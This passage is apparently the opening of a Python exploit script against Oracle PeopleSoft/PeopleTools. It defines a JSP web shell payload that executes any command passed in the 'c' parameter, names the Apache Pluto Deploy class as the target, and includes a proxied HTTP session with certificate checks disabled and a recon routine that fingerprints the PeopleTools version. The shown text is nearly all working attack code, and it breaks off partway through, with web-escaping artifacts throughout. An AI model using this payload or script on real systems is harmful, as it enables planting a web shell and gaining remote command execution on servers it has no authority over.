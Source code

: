 ```
    `}`


URL = sys.argv[1].rstrip('/')
CLASS_NAME = 'org.apache.pluto.portalImpl.Deploy'
PROXY = 'localhost:8080'

# shell.jsp?c=whoami
PAYLOAD = '&lt;%@ page import="java.util.*,java.io.*"%&gt;&lt;% if (request.getParameter("c") != null) `{` Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) `{` out.println(disr); disr = dis.readLine(); `}`; p.destroy(); `}`%&gt;'


class Browser:
    """Wrapper around requests.
    """

    def __init__(self, url):
        self.url = url
        self.init()

    def init(self):
        self.session = requests.Session()
        self.session.proxies = `{`
            'http': PROXY,
            'https': PROXY
        `}`
        self.session.verify = False

    def get(self, url ,*args, **kwargs):
        return self.session.get(url=self.url + url, *args, **kwargs)

    def post(self, url, *args, **kwargs):
        return self.session.post(url=self.url + url, *args, **kwargs)

    def matches(self, r, regex):
        return re.findall(regex, r.text)


class Recon(Browser):
    """Grabs different informations about the target.
    """

    def check_all(self):
        self.site_id = None
        self.local_port = None
        self.check_version()
        self.check_site_id()
        self.check_local_infos()

    def check_version(self):
        """Grabs PeopleTools' version.
        """
        self.version = None
        r = self.get('/PSEMHUB/hub')
        m = self.matches(r, 'Registered Hosts Summary - ([0-9.]+).&lt;/b&gt;')

        if m:
            self.version = m[0]
            o(':', 'PTools version: %s' % self.version)
        else:
            o('-', 'Unable to find version')
```